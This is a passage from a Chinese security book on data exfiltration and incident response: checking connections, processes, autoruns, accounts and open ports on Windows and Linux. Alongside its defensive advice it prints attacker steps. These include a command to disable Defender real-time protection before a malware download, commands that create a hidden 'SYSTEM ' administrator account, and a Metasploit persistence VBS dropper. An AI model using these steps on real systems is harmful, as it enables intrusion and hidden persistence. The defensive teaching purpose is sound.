在远程连接到系统后，无论是通过利用反向 shell 的漏洞，还是通过从网络发出的 `ncat` shell，攻击者都可以找到他们想从网络中窃取的信息，然后将其复制到 Web 根目录。对于 Windows（和 Linux），这通常需要黑客在复制后重新配置文件权限，否则他们在下载文件时可能会收到拒绝访问的消息。如有必要，他们可以使用 `icacls`（Windows）或 `chmod`（Linux）来完成此操作。


**图 8.25** 通过 Web 服务器进行的数据外泄。

查看这些日志的人应该意识到，这些文件本不应该出现在 Web 服务器上，用户也不应该通过 Web 请求来获取它们。当然，Web 日志的问题在于，需要监控和筛选的日志数量可能极其庞大。此外，还存在保留策略问题：入侵期间的日志可能已经不再可用。有时，我见过由于事件的发生，系统被擦除并重新安装，这就是日志丢失的原因。最后，即使这里没有任何黑客行为，朝鲜的 IP 地址连接到你的 Web 服务器这一事实，也肯定是分析师想要关注/监控/阻止的。

```text
175.45.176.200 - - [23/Jan/2024:17:18:20 -0500] "GET /blueprint1.jpg HTTP/1.1"
175.45.176.200 - - [23/Jan/2024:17:18:20 -0500] "GET /favicon.ico HTTP/1.1"
175.45.176.200 - - [23/Jan/2024:17:18:21 -0500] "GET /blueprint2.jpg HTTP/1.1"
175.45.176.200 - - [23/Jan/2024:17:18:21 -0500] "GET /favicon.ico HTTP/1.1"
175.45.176.200 - - [23/Jan/2024:17:23:41 -0500] "GET /blueprint3.jpg HTTP/1.1"
175.45.176.200 - - [23/Jan/2024:17:23:41 -0500] "GET /blueprint4.jpg HTTP/1.1"
```

**图 8.26** 带有数据外泄证据的 Web 日志。

而且，黑客并不需要像我例子中那样明显地表现出他们的意图。如果他们属于国家支持的黑客组织，他们不太可能这么做。他们可以将目标文件重命名为类似 `favicon.ico` 的名字，以混淆他们在 Web 日志中的行为，然后在数据外泄后清理痕迹。从命令行删除的文件不会进入回收站。


**图 8.27** 创造性的数据外泄与删除证据。

如果攻击者没有可以利用的 Web 服务器或其他类型的服务器进行数据外泄，他们可以借助其他方法来获取数据。较新的文件上传和下载方式之一是通过 PowerShell。我实际上感到惊讶的是，当我在防火墙外的远程系统上时，我可以极其轻松地进入 PowerShell 会话，从而利用其强大的功能。攻击者可能需要下载恶意软件来提升权限或进行横向移动。在最新版本的 Windows（以及大多数版本的 Linux）上，`curl` 命令也可用于下载。在下载恶意软件之前，请确保通过输入以下 PowerShell 命令禁用内置的 Windows Defender 防病毒程序的实时保护：

```text
PS C:\Windows\System32> Set-MpPreference -DisableRealtimeMonitoring $true
```


**图 8.28** 从反向命令 Shell 执行 PowerShell。

如需下载恶意软件或从网络外泄数据，可以使用以下 PowerShell 命令：

- `Invoke-WebRequest` 可用于从互联网下载文件
- `Invoke-RestMethod` 可用于上传文件并将其外泄

在某些情况下，黑客可能在一台工作站上，需要从文件服务器获取重要的专有数据。对黑客（和最终用户）来说幸运的是，在某些情况下，指向重要共享的驱动器会被预先映射，`net use` 命令将显示该工作站已映射的共享列表。网络共享是重要的资源，最终用户可以在其中访问、存储和备份文件，并与组织内的其他用户协作。如果这些共享中包含值得窃取的数据，攻击者就可以使用 `Invoke-RestMethod` 将数据直接外泄出网络。


**图 8.29** `net use` 命令。


如果攻击者没那么幸运，在被攻陷的工作站上没有可用的共享驱动器，那么他们可以使用 `ipconfig` 命令查找网络上的域控制器或域名系统（DNS）服务器（有时两者是同一个），这些服务器可能有一个或多个文件共享。这些服务器通常可以通过查看工作站的 DNS 地址来发现。而且，如果黑客获得了本地管理员访问权限，他们就可以使用相同的用户名和密码连接到网络上能访问到的任何其他系统。不幸的是，我见过太多网络，其中的本地管理员用户名和密码在各系统上都相同，黑客可以在网络中从一台机器到另一台机器，尽情横行。如果网络是这样配置的，以下原生 Windows 命令将允许攻击者连接到服务器的 `IPC$` 共享，然后将系统上存在的任何驱动器中的任意文件复制到工作站。要做到这一点，网络上需要有另一台机器使用相同的密码（和用户名）的管理员帐户。


**图 8.30** `IPC$` 共享。

从安全角度来看，本地管理员密码不应在多个系统上相同。当本地管理员的用户名和密码在各系统上都相同时，黑客就可以在网络中为所欲为，任意横向移动。微软的免费工具 LAPS（本地管理员密码解决方案）可用于防止这种横向移动。它基本上让每台机器的本地管理员密码都不同。好消息是，你不必记住所有这些不同的密码，因为它们会存储在 Active Directory 中。LAPS 可在此处下载：https://www.microsoft.com/en-us/download/details.aspx?id=46899。


**图 8.31** 本地管理员密码解决方案。

由于命令 Shell 不会触发防病毒软件，因而可能非常危险，你可以在系统中启用 PowerShell 活动监控，聚合这些日志，并将它们发送到像 Splunk 这样的集中式日志服务器。要在 Windows 系统上启用 PowerShell 日志记录：

在本地计算机上键入 `gpedit.msc`（如果你有 Active Directory，请在域级别启用）。

转到“计算机配置”、“管理模板”、“Windows 组件”。

在列表中，找到 Windows PowerShell 文件夹。

- 单击“PowerShell 转录设置”并将其启用。

- 单击“PowerShell 脚本块日志记录设置”并将其启用。


**图 8.32** 启用 PowerShell 日志记录。

启用 PowerShell 日志记录后，你将能够确定管理员、最终用户以及黑客在 PowerShell 中运行了哪些命令。黑客可以利用许多工具来攻击系统，但内置的 PowerShell 是最强大的工具之一。关于 PowerShell 的主要担忧在于，它是合法的 Microsoft 工具，不会触发防病毒软件，也可能不会被入侵检测系统（IDS）或入侵防御系统（IPS）发现。攻击与防御系统是一场持续的猫鼠游戏，将随着时间的推移不断演变。公司和组织正在努力保护的数据，也正是黑客们垂涎欲滴的数据。


**图 8.33** 启用 PowerShell 日志记录。

## 总结

黑客行为都有其目的，通常是为了让攻击者获利。也可能存在其他原因，例如政治原因，这些原因会强烈激励黑客、黑客组织或国家。公司和组织过去往往不愿立即披露入侵事件，但更新、更严格的法律正在迫使他们这样做。公司和组织经常因缺乏足够的网络安全预算和安全态势而遭受入侵，但即使网络安全对组织中的每个人来说都至关重要，一个小错误也可能导致入侵。黑客拥有出色的工具，并且有强烈的动机去实现他们的目标，而防御者往往要保护大量系统并对其进行更新、筛选海量日志，还要监督那些可能有意或无意利用其系统的人员。

# 9 我是不是被黑客入侵了？如何判断？

## 引言

本章内容适用于以下场景：

- 1. 试图判断你的系统是否已被入侵。

- 2. 在网络攻防竞赛中，将攻击者从你的系统中清除。

- 3. 执行某些动态恶意软件分析。

你可能想问的第一个问题是：黑客一开始是如何进入系统的？攻击者入侵系统的方式有很多，包括鱼叉式网络钓鱼、Web 应用程序攻击、漏洞利用、窃取或默认凭据，以及某种形式的社会工程学攻击。随着联网设备和系统的数量日益激增，网络安全攻击仍将是一个问题，并且可能对个人、公司和组织构成真正的威胁。这些攻击在本书前面的章节中由 Chris Haller 介绍，他是一位出色的红队成员。Chris 将带你了解漏洞被发现和利用的全过程。Chris 和我都有红队（攻击）和蓝队（防御）两方面的经验。学习如何攻击系统有助于你更好地防御系统，而学习如何分析入侵（黑客攻击）则有助于你成为更好的攻击者。这正是大学和培训中心教授“道德黑客”的原因，目的是帮助防御者理解黑客是如何进入系统的，以及入侵后他们应该寻找攻击者留下的哪些痕迹。

你可能会问：“只要我让系统保持最新的操作系统版本，安装所有最新的补丁，并把安全设置全部调高，那我应该是安全的，对吧？”虽然这确实有帮助，也是良好的实践，但信息技术（IT）比这要复杂得多。一家大公司可能有数百个系统，每周都需要更新 Chrome、Windows、Adobe、Office、Java 等应用程序（你懂的），这可能是一项艰巨的任务。这也是选择网络安全作为职业领域的一个好理由，因为所有这些都需要大量管理，并且需要一定的人力。而且，如果你有多年网络安全经验，你会明白，虽然打补丁和更新很重要，但它们也可能破坏应用程序，导致人们每天依赖的关键软件无法正常运行。我了解到一个案例，一家公司花 10 万美元买了一台打印机。下一代操作系统没有这款打印机的驱动程序，因此公司不得不决定是废弃这台打印机，还是在网络上用旧操作系统继续运行它。攻击者会将老旧系统视为网络中的“低垂果实”。对于 Windows 11，存在 CPU 最低版本和受信任的平台模块（TPM）2.0 等硬件要求，这将阻止公司和个人运行比 Windows 10 更新、更安全的 Windows 版本。这也使得保护设备安全变得更加困难。


**图 9.1** 你无法安装 Windows 11。

我们不能不切实际地期望微软操作系统一直保持过去 20 年相同的硬件和系统要求。如今应用程序所需的 RAM 和资源量使得升级系统成为必要，这样它们才能“可用”。另外，为了让你知道我并不是在针对微软，Mac 用户如果使用较旧的 MacBook、iPhone 或 iPad，也会遭遇类似的命运。总有一天，苹果会像微软一样，不再支持较旧的设备和操作系统，并停止提供补丁或更新。而 Chrome、Firefox 和其他应用程序也会停止为苹果和微软不再支持的某些操作系统版本更新其软件。这不仅会变成安全问题，而且最终，装有过时操作系统的旧设备会因新的浏览器和加密设置可能无法在旧系统上使用而变得几乎完全不可用。请注意，虽然有一些破解手段可以让旧设备继续工作（比如在我的 2010 年 MacBook Pro 上安装 Windows 11），但这并不是良好的安全实践，因为被破解的设备（如越狱的 iPhone、Root 过的 Android 手机等）存在某些安全漏洞，而“循规蹈矩”的设备则没有。此外，还有一些讨论称微软不会为不受支持或未经许可的 Windows 软件提供更新。

## 入侵证据

如果你的个人系统已连接到互联网，并且你认为它已被入侵，我会建议你拔掉路由器插头。我们过去常说拔掉以太网线，但如今大多数人在家里使用无线网卡。如果你正在为某个组织处理入侵案件，你会希望在断开连接之前收集易失性数据和内存（RAM），以便保存有关进程和连接的信息，这些信息在你“拔掉插头”时很可能会消失。你可以在被黑客入侵的计算机上使用一些免费工具，其中一些是操作系统（Windows 和 Linux）内置的。`netstat` 命令在 Windows、Linux 和 Mac 操作系统中都可用，它会显示你的系统连接到的 IP 地址。使用正确的开关参数，你可以找到拥有已建立连接的那个进程。大多数熟悉漏洞利用的人会立刻注意到目的端口 4444，这是 Metasploit 的默认端口。尽管黑客可以轻松地通过将 LPORT 值设置为 443 来更改此端口，但出于这个原因，任何网络在任何情况下都不应允许 4444 端口出站。这个小小的防火墙更改就能带来巨大的不同。


**图 9.2** 来自 Windows 机器的 Netstat 数据。

单个系统所连接的 IP 地址列表可能非常庞大，因为有大量的应用程序和程序（如 Office 365、Teams、Discord、Chrome 等）在向互联网或局域网（LAN）上的各种套接字（IP 地址和端口）发送信标。

如果你参加过教授渗透测试的课程，那么你很可能学会了如何在扁平网络上进行黑客攻击。例如，192.168.1.50 攻击 192.168.1.100。攻击同一网络上的另一台机器要容易得多，因为局域网中通常打开更多端口，这会导致更多的攻击向量。与目标机器处于同一局域网时


**图 9.5** Countryipblocks.net。

美国有法律禁止其公民黑客攻击其他国家的系统。我不清楚其他国家是阻止还是鼓励其公民黑客攻击美国境内的组织。我之所以一直提到外国，是因为美国境内计算机受到的攻击有相当大一部分来自美国境外。如果美国与其他国家签有协议，允许起诉此类个人，那么或许有一些能力找到并抓住黑客或黑客组织的成员，尽管这当然不是一件容易的事。如果美国对攻击来源国没有管辖权，而该国又不愿意与美国执法部门合作，那么黑客将或多或少能够逃避起诉。除非黑客受邀到美国本土参加某次会议，然后在踏上美国领土时被逮捕（是的，这种情况发生过）。在某些情况下，这甚至可能是国家支持的活动。国家支持的攻击意味着该国（例如中国或朝鲜）政府雇佣并授权黑客攻击美国境内的公司、组织和政府实体。通常，当我们查看痕迹和足迹以及来源 IP 地址的国家时，我们可以判断攻击来自哪个国家，然后我们就可以对攻击进行归因。底线是，你不希望看到来自朝鲜、中国或其他国家的 IP 地址通过 RDP、PowerShell 或 4444 端口出站连接连接到你的系统。

```
C:\>netstat -tan | find "ESTABLISHED"
TCP 127.0.0.1:389 127.0.0.1:49205 ESTABLISHED InHost
TCP 127.0.0.1:389 127.0.0.1:49207 ESTABLISHED InHost
TCP 127.0.0.1:49205 127.0.0.1:389 ESTABLISHED InHost
TCP 127.0.0.1:49207 127.0.0.1:389 ESTABLISHED InHost
TCP 192.168.1.10:3389 175.45.176.199:48327 ESTABLISHED InHost
TCP [::1]:135 [::1]:49204 ESTABLISHED InHost
TCP [::1]:49204 [::1]:135 ESTABLISHED InHost
```

**图 9.6** 来自朝鲜 IP 地址的 RDP 连接。

Netstat（在 Linux 中必须是小写的 `netstat`）可以为你提供与其他系统的已建立连接的信息。如果黑客进入了你的系统，那么网络连接中就会存在一条通往该受害者的已建立连接。在 netstat 命令中添加一个开关参数（见下面的示例）将为你提供连接到远程主机的进程的进程 ID（PID）。同样，当你使用 Microsoft Edge 连接到 Office 365 帐户时，浏览器连接到微软拥有的 IP 地址是正常的，但通常不正常的是，存在一条到另一个国家的 IP 地址的出站 ssh、PowerShell、RDP 或 svchost 连接。

要在 Linux 中查找已建立的连接（请注意，两种情况下 `ESTABLISHED` 都应大写）：

```
netstat -tanp | grep ESTABLISHED
```

要在 Windows 中查找已建立的连接：

```
netstat -anob | find "ESTABLISHED"
```


图 9.7 指向朝鲜某 IP 地址的出站 Java 和 SSH 连接。

因此，我们可以通过内置命令来检查连接所涉及的进程。虽然内置命令在需要快速响应时很有用，但下一节将介绍一些（适用于 Windows 的）更好的免费工具。所以，如果攻击者进入了你的系统，将会出现：

- 1. 他们用来连接你系统的 IP 地址和端口（IP+端口=套接字）。

- 2. 与远程攻击者关联到你系统的进程 ID（或 PID）。

如果我在攻击你的系统，我会把我的文件命名为 `svchost.exe`。为什么？看看我未受入侵的系统，注意有多少不同的 PID 与 `svchost.exe` 相关联。实际上，它们并没有全部显示在截图中。我还有大量的 `Chrome.exe` 和 `MSedge.exe` 进程。


图 9.8 我的天，全是 SVCHOST。

无论如何，除了查看任务管理器之外，Linux 中还有一些内置工具可以检查系统上的进程。在 Linux 的情况下，你可以通过使用 `netstat -p` 获取与远程连接关联的进程名称。但是，我们还可以获得关于该进程的额外信息，如果我们输入 `ps -elf`，然后使用 `grep`（全局正则表达式打印）过滤该 PID，这些信息将非常有用。在这里，你可以看到我发现有一个 Metasploit 载荷与该 PID 相关联，而且你还可以在 `/tmp` 目录中找到恶意载荷的位置。如果你不知道，临时目录通常在机器关闭时被删除，所以这就是建议检查和收集易失性数据以及对 RAM 进行镜像的原因。请注意，我使用了久经考验的 `kill -9` 命令来终结朝鲜对我的 Linux 系统的“娱乐”。


**图 9.9** 感谢朝鲜的黑客攻击。

在 Windows 中内置了 `netstat` 可以查看连接，`tasklist` 获取进程信息，`taskkill` 终止进程。你也可以在 Windows 系统上使用带 `-ob` 开关的 `netstat` 来确定与网络连接对应的进程 ID（PID）和可执行文件名称。使用 `/v` 开关时，`tasklist (/v)` 将为你提供有关进程的更详细信息，而 `taskkill` 命令可用于停止该进程。我还选择使用 `pslist`（类似于 `tasklist`）和 `pskill`（类似于 `taskkill`），它们是免费的 Windows sysinternals 工具套件的一部分。对于任何检查自己系统的人来说，这些工具都是必备的，可以从这里下载：https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite，这些工具都应该成为你的 Windows 事件响应（IR）工具包的一部分。请注意，我终止了 PowerShell 进程。PowerShell 的问题在于，它是一个在网络上运行的合法程序，经常被系统管理员使用。但 PowerShell 也被攻击者利用，因为它的强大功能可以被网络中的黑客使用。在下面的示例中，攻击来自一个内部私有 IP 地址 172.16.200.50。该系统也应该被检查，因为它可能是横向移动的攻击者、内部威胁，或者是网络管理员（除非他们使用 4444 端口，否则这种可能性极小）。


**图 9.10** 被终止的 PowerShell PID。

## 情况变得更糟，他们升级了手段，我们也必须升级

一旦攻击者进入系统，他们就会希望通过安装后门或创建可用于连接系统的账户来维持其访问权限。通常，黑客希望在机器上获得持久性，这意味着即使你用 `kill -9`、`pskill`、任务管理器或 `taskkill` 终止了进程，攻击者也能轻松地重新进入你的系统。如果攻击者在受害机器上获得了持久性，那么诸如登录或重新启动计算机之类的事件很可能会重新建立攻击者的连接。有时，恶意软件不需要依赖任何事件，它只会在连接断开时不断尝试重新连接。我使用的大多数基于图形用户界面（GUI）的恶意软件都有选项允许攻击者维持其持久性。Metasploit 也赋予攻击者维持持久性的能力。攻击者希望立即建立这种持久性，这样即使他们被发现或原始入侵点被关闭，他们仍然有另一条路径可以回来。

现在，我们需要检查 meterpreter 中一些更易于使用的命令，这些命令将使攻击者保持在系统中。作为 Metasploit 的长期用户，我可以证明，随着时间的推移，已经发布了许多有用的命令和插件，使持久化和后期利用对攻击者来说更加容易。实际上，曾有一段时间，攻击者到受害者的 meterpreter 流量甚至没有完全加密。我提到这一点是因为理解黑客工具随时间的演变很重要，因为它们现在更加复杂且易于使用。


图 9.11 在 Metasploit 中建立持久性。

通常，会创建一个 Windows 注册表项，允许该恶意软件回连到攻击者。对于我们这些取证调查人员来说，重要的是要注意到，Windows 注册表中将存在指向恶意可执行文件的路径，这将使我们能够在磁盘上定位它、执行恶意软件分析，并可能确定某种归因。而且，正如我提到的 Linux 情况，如果文件被放入 Windows\temp 目录，当系统关闭时它可能不存在，这再次重申了我们收集易失性数据和对系统 RAM 进行镜像以保留入侵指标的原因。


现在，让我们抛开那些命令行工具，转向一些基于 GUI 的 sysinternals 工具。我要检查的第一个（免费）工具是 Process Explorer，无论是面对真实的入侵还是某种蓝队演练或比赛，对于任何查看连接和进程的人来说，这都是必备工具。Process Explorer 工具将为你提供可以从 `netstat` 和 `tasklist` 命令获得的数据，并且在定位可能潜伏在系统中的恶意行为者方面更加直观。

当我探索这些进程时，我不禁注意到存在一个极长的字符串以及一个隐藏的标志，该标志很可能旨在帮助这个恶意进程逃避检测。最后，我还注意到一个名称奇怪的进程 `prLNUjAgGaE.exe`。你不会看到命名约定为大小写字母混合的典型可执行文件，所以这也是一个危险信号。


图 9.12 Process Explorer。

Process Explorer 的另一个优点是它会为你提供有关 TCP/IP 连接的信息，包括 IP 地址和端口（套接字）。在这种情况下，我们有一个通过 4444 端口（Metasploit 的默认端口）连接到朝鲜的 PowerShell 连接。使用 4444 端口的出站连接或连接到朝鲜的 PowerShell 连接，都是你应该在任何系统上避免的事情。


图 9.13 连接到朝鲜的 PowerShell。

我们最后能做的事情是检查这个 PowerShell 的子进程，我们会注意到一个指向可执行文件的路径。请注意，这个可执行文件被放置在 Metasploit 指示的同一目录中，该目录是在攻击者在 meterpreter 中运行 `run persistence` 命令时创建的。


**图 9.14** 恶意文件的路径。

我能够将恶意文件上传到 VirusTotal，并找到恶意软件正在向其发送信标的 IP 地址。VirusTotal 非常适合分析可疑文件。如果个人用户想要查看文件的行为，或者你正在参加网络竞赛，它都非常有用。但如果你在国防部担任分析师，并且认为自己正在应对由国家支持的行为者，我不会使用它，因为行为者可以通过某些机制（如哈希）来确定他们的病毒是否已被检测到。这或多或少会向黑客透露你已察觉到他们的存在，而且你的工作场所可能也不希望文件信息进入公共领域（这可能与机密事项有关）。


**图 9.15** Dropper 文件的 VirusTotal 分析。

另一个在系统中定位恶意活动的好方法是使用 Autoruns，这是 Sysinternals 套件中的另一个重要工具。该工具将帮助你精确定位哪些程序设置为在登录时启动，并且还允许你查看任何服务和计划任务。通过查看 Autoruns 中的大多数选项卡，你确实可以开始发现是否存在任何恶意活动迹象。而且，如果你正在参加网络竞赛或进行动态恶意软件分析，你可以在虚拟机（Windows XP、7 和 10 上运行良好）上运行恶意程序。最佳实践是在以仅主机模式运行的虚拟机中运行恶意软件。一些极度谨慎的人会进一步禁用 VMware Tools，以避免主机系统受到任何可能的污染。也存在识别 VMware 的恶意软件，因此如果恶意软件足够复杂，能够检测自身是否在虚拟环境中运行，卸载工具可能会有帮助，因为它在这些条件下可能不会运行。


**图 9.16** Autoruns。

Autoruns 工具让我注意到在临时目录中运行的 VBS 脚本。因此，对于这个恶意软件，VBS 脚本进行了一些 base64 编码，可能是为了避免检测，然后它运行并创建一个文件，删除该文件，并在睡眠 5000 毫秒后重新运行该程序。其中一些技巧旨在逃避杀毒软件和其他网络安全相关检测机制的检测。重要的是要注意，Meterpreter 连接是加密的，因此受害者机器（本例中在美国）和攻击者机器（在朝鲜）之间的流量无法被分析。

```vbscript
' Malicious Visual Basic Script
Function fLJRUwXgXhr(ZMuuThUB)
    OyIbExEEyy = "<B64DECODE xmlns:dt=" & Chr(34) & "urn:schemas-microsoft-com:datatypes" & Chr(34) & " " & _
        "dt:dt=" & Chr(34) & "bin.base64" & Chr(34) & ">" & _
        ZMuuThUB & "</B64DECODE>"
    Set DCWQfIRV = CreateObject("MSXML2.DOMDocument.3.0")
    DCWQfIRV.LoadXML(OyIbExEEyy)
    fLJRUwXgXhr = DCWQfIRV.selectsinglenode("B64DECODE").nodeTypedValue
    Set DCWQfIRV = Nothing
End Function

Function QKDSXVJm()
    tvBgUHI... = "TVqQAAMAAAAEAAAA..."
    Dim erDXcvnqaq
    Set erDXcvnqaq = CreateObject("Scripting.FileSystemObject")
    Dim OVUIDeHteq
    xCHN... = erDXcvnqaq.GetSpecialFolder(2)
    xCHN... = "" & erDXcvnqaq.GetTempName()
    erDXcvnqaq.CreateFolder(xCHN...)
    apo... = xCHN... & "\\...exe"
    Dim XTeOGRACKINyHr
    Set XTeOGRACKINyHr = CreateObject("WScript.Shell")
    CzzZZOE... = fLJRUwXgXhr(tvBgUHI...)
    Set qaD... = CreateObject("ADODB.Stream")
    qaD...Type = 1
    qaD...Open
    qaD...Write CzzZZOE...
    qaD...SaveToFile apo..., 2
    XTeOGRACKINyHr.Run apo..., 0, True
    erDXcvnqaq.DeleteFile(apo...)
    erDXcvnqaq.DeleteFolder(xCHN...)
End Function

Do
    QKDSXVJm
    WScript.Sleep 5000
Loop
```

**图 9.17** 恶意 Visual Basic 脚本。

通过检查 Autoruns 提供给我的路径，我能够在 Windows 目录下的临时目录中的文件系统上找到该脚本。当我把 VBS 脚本上传到 VirusTotal 时，该网站能够提供脚本运行时创建的可执行文件名称 `prLNUjAgGAE.exe`。它还让我知道，当该文件被大量检测引擎扫描时，它是恶意的。黑客还可以使用更高级的技术来提高其逃避检测的能力。


**图 9.18** 恶意 VBS 文件的 VirusTotal 分析。

需要澄清的是，攻击者的原始入口点 `PowerShell.exe` 不会被 Autoruns 检测到，但可以用 Process Explorer 检测到。只有在我运行持久化命令时，VBS 脚本和 dropper `prLNUjAgGAE.exe` 才会被创建。Meterpreter 中的持久化命令报告说，它在 `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` 注册表项中创建了持久化的启动项。然而，这是一个非常常见的注册表项，进行取证分析的人通常会检查此启动项，而且看起来 `HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Run` 才是注册表项的实际位置。我能够使用 Autoruns 工具检测到这个位置。它会检测 Windows 中将要自动启动的程序，对于动态恶意软件分析极其有用。


**图 9.19** 恶意 VBS 文件的注册表项。

## 检查账户

所以，许多网络入侵分析师或威胁猎手会告诉你，要查找系统的活动连接，并仔细检查进程，就像我们在本章第一部分所做的那样。黑客进入并尽可能长时间地停留在你的系统或网络中，这是极其常见的。但是，根据开放的端口和正在运行的服务，攻击者总是有可能创建凭据，以便他们可以离开后再回来。因此，检查系统上的账户绝不是一个坏主意。这一步也应该成为你的事件响应计划的一部分，如果你获得了 RAM 镜像，你还可以查看你的 Windows 账户，就像你在第 1 章中可能看到的那样，当时我使用 Volatility 框架提取密码哈希（在对机器进行物理攻击期间）。

在 Meterpreter 中键入`shell`命令或访问 Windows 上的命令提示符后，可以使用以下命令列表来创建“SYSTEM”账户，尽管已经存在一个任何用户都无法使用的 SYSTEM 账户。SYSTEM 是 Windows 上可能的最高权限级别，甚至高于管理员账户。我们在这里所做的实际上只是创建一个标准账户，并在一个已存在但无法使用的实际账户名称中添加一个空格，然后将其添加到管理员组。这里的想法是使用一个不会引起注意的账户，并且由于 SYSTEM 账户确实存在（但不显示），因此可能不会被经验不足的分析 Windows 账户的人发现。我以前在大学生网络防御竞赛（CCDC）中作为红队成员使用过这个技巧，它在为期两天的比赛中一直留在系统上，并允许我随意登录，在竞赛规则允许的范围内对学生的机器进行破坏。有些学生就读于全国最好的网络安全学校，但他们没有注意到“SYSTEM ”实际上并不属于系统。以下是我在系统上运行的命令，用于创建“SYSTEM”账户并将其添加到管理员组：

```text
net user SYSTEM P@ssw0rd /add                 -> will not work because it says the account exists.
net user                                      -> shows a list of users but no SYSTEM account.
net user "SYSTEM " P@ssw0rd /add             -> adds a standard account named "SYSTEM " with a space
net localgroup administrators "SYSTEM " /add  -> adds the "SYSTEM " account to administrators
net user                                      -> shows a list of users including a "SYSTEM " account
```


**图 9.20** 账户操纵以添加“SYSTEM”。

这里有趣的是，我不确定那个 DefaultAccount 是我创建的东西，还是本来就应该存在那里。通过简单的 Google 搜索，我得知 DefaultAccount 或默认系统托管账户（DSMA）是 Windows 10 版本 1607 和 Windows Server 2016 中引入的内置账户。所以，该账户应该存在于这个 Windows 操作系统版本中，但并非所有 Windows 版本都有。它会因版本而异，所以可能相当棘手，正如下一个示例所示，即使是经验丰富的管理员也可能需要研究才能找到账户列表。

在这个较旧版本的 Windows 中，有一堆默认账户本来就应该存在。根据所安装和配置的内容，你可能会在现代版本的 Windows 中看到一些类似的账户。HelpAssistant 和 Support 账户是此 Windows 版本附带的合法账户。IWAM 和 IUSR 账户是在用户安装 Internet Information Services 时创建的，因此这些账户也应该存在。在较新版本的 Windows 中，我还见过一个与 Windows Defender 相关的 WDAUtilityAccount。我创建的假账户是 HelperAssistant。注意，我试图让大小写与 HelpAssistant 账户保持相似。


**图 9.21** 哪些账户是合法的？

管理员和来宾账户如果未被使用，攻击者也可以将其启用并使用。从 Windows Vista 开始，客户端操作系统版本（Windows NT 客户端列表包括 NT Workstation、2000 Pro、XP、Vista、8.1、10 和 11）中的 Administrator 和 Guest 账户默认被禁用。在 Windows Server 版本（NT Server、2000 Server、2003、2008、2012、2016、2019 和 2022）中，Administrator 账户处于启用状态，而 Guest 账户处于禁用状态。谈到 Windows Server，在域控制器上可能有几十、几百甚至几千个账户，这使得跟踪用户账户变得更加复杂，也更难发现未授权账户。一个有助于发现未授权账户的建议是查看系统上具有管理权限的账户。当我在 Windows 服务器上执行此操作时，只找到了两个账户。标准账户以及备份操作员等组的成员账户仍然可能对系统造成损害，但在大多数情况下，攻击者执行任务需要管理员权限。

我用来查看管理员账户的命令是：`net localgroup administrators`


**图 9.22** 我可以和管理员谈谈吗？

我们查看了连接和进程，以确定是否有攻击者可能连接到你的系统。然后，我们检查了系统上的用户账户，以查找任何未授权用户。接下来，我们还将确保“前门”没有敞开。系统上没有必要开放那些可能被攻击者利用的服务。即使你位于防火墙后面，也要记住，网络中的其他系统或你通过笔记本电脑连接的无线网络可能绕过这些过滤器。家庭和工作场所中联网设备无处不在，使得这一威胁更加严重。例如，Check Point 的一名研究人员能够演示攻击者如何利用被入侵的 Peloton 在网络中进行横向移动。

接下来，我们将检查哪些端口处于开放状态，如果认为服务不需要，就关闭相应端口。我们可以在 Windows 上使用`nmap`（你可以从此处下载：https://nmap.org/download），也可以直接使用内置的`netstat`。

运行以下命令，查看 Windows 系统上打开了哪些端口：

```
nmap 127.0.0.1 -p 0-65535   -> checks to see what Transmission Control Protocol (TCP) ports are open
netstat -tan | find "LISTENING" -> shows a list of open ports with the built-in netstat command
```


**图 9.23** Windows 系统上的开放端口。

1. 使用服务器管理器卸载 IIS，如果 FTP 和 HTTP 服务器未被使用，这将一并移除它们。

2. 如果你在网络中没有使用文件和打印机共享，请将其删除。你可以在这里进行此操作：`控制面板\网络和 Internet\网络和共享中心\高级共享设置`。

你主要应该关注的是删除用于远程连接的安全外壳（SSH）服务器和远程桌面协议（RDP）服务器。SSH 使用 22 端口进行远程命令行管理，RDP 使用 3389 端口进行基于 GUI 的远程管理。没错，微软已经开始在其服务器版本中包含 OpenSSH 服务器，并且值得庆幸的是，已停止包含 Telnet 服务器。你可以通过“设置”应用、“应用”、“可选功能”卸载 OpenSSH 服务器。如果不需要 RDP，请右键单击“开始”按钮，转到“系统”，然后选择“远程桌面”。将其关闭，然后确认你的选择。使用`nmap`再次扫描 localhost，以验证该端口已关闭。


**图 9.24** 关闭 RDP。

关于 Windows 设备上 Administrator 账户的安全性，还有最后一点可能不太明显。内置的 Administrator 账户无法被锁定，原因显而易见，比如避免永久失去对系统的访问能力。在 Windows 10 和 11 等客户端系统中，此账户默认处于禁用状态。但在 Server 2019 和 Server 2022 等服务器操作系统中，此账户处于活动状态且可能被利用，因为它会接受成百上千次错误登录，并且仍允许你继续尝试。在下面的示例中，我尝试了 182,899 个不同的密码，最终成功获取了管理员密码 P@ssw0rd。重命名内置 Administrator 账户肯定有助于解决该账户的这个漏洞。


**图 9.25** Administrator 账户的缺点。


在账户方面，我们还需要检查 Linux。在我看来，两种操作系统（Windows 和 Linux）各有优缺点，从安全角度看也各有优缺点。请不要到处宣扬 Linux 比 Windows 更安全（或更稳定），因为这取决于许多因素，比如你使用的操作系统版本、使用的应用程序以及配置的安全设置。一个有漏洞的 Linux 系统并不比 Windows 系统更安全。黑客更常攻击 Windows 系统，因为 Windows 在消费市场中使用更为广泛。在互联网变得更为主流之前，Windows 在 90 年代的安全防护非常松懈（而且相当不稳定）。早期版本的 Windows 包含不安全的文件系统、默认安装和运行的不必要应用程序，并且没有防火墙。但即使 Windows 开始加强安全，Java、Adobe（以及 Office）等应用程序也为黑客提供了进入系统的便捷入口。2024 年的 Windows 比 30 多年前发布时更加安全稳定。许多人都知道的常见 Linux 权限提升攻击（如 Shellshock 等）也证明 Linux 对安全问题并非免疫。

在 Linux 中，我们可以通过查看 `/etc/shadow` 文件来检查账户。特别是，我们要查找 UID 可能为 0 的账户。Linux 中可能有许多没有登录名或密码的账户，因此我们可以使用 `grep` 查找 `$` 符号来筛选出有密码的账户。Linux 密码哈希中包含美元符号（`$`），因为它们是（`$`）加盐的。加盐是哈希过程中的一个额外步骤，可以防止攻击者使用彩虹表。彩虹表是大量哈希及其对应密码的集合。彩虹表对 Windows NTLM 和 LAN Manager 哈希有效，但对 Linux、Cisco（或 Mac）设备上的密码哈希无效。用通俗的话说，如果两个用户拥有完全相同的密码，他们在 Linux 中的密码哈希会不同，但在 Windows 中的密码哈希则相同。在 Linux 中，我们可以使用 `grep` 查找 `x:0` 来寻找 UID 为 0（root 级权限）的账户。

